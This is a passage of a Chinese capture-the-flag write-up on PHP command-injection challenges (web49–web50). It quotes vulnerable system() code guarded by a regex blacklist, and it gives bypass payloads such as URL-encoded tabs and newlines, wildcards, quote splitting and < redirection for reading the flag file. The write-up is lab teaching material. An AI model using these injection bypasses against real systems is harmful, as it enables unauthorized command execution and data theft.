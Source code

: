 > \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%

虽然过滤了%但是是不影响我们传入的url编码的

```
tac%09fl??.php%0a

or

tac%09fl??.php%7c%7c 
```



#### web50

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26

坏，没法用%09代替空格，没法用?代替字符

不过幸好还有<和''

```
tac<fla%27%27g.php||
or
tac<fla%27%27g.php%0a
```

#### web51
